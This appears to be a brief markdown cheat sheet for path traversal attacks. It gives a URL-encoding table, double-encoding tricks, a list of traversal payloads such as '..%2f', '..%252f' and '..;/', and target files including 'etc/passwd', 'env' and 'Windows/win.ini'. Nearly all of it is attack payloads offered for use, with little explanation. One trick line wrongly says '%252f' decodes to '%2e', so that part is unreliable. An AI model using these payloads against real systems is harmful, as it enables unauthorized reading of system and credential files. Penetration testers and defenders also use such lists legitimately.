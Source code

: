 # Path transversal

| Char | Encoded |
| --- | --- |
| space | %20 |
| / | %2f |
| \ | %5c |
| % | %25 |
| . | %2e |
| f | %66 |
| e | %65 |

## Tricks

%252%66 -> %2f -> /
%252%65 -> %2e -> .
%252f -> %2f -> /
%252f -> %2e -> .

## Payloads

..;/
..%5c
..%2f
../
..\
..%252f
%2e%2e%252f
/
//
///
////
/////
//////
///////
////////
/////////
//////////

## Files

env
etc/passwd
Windows/win.ini
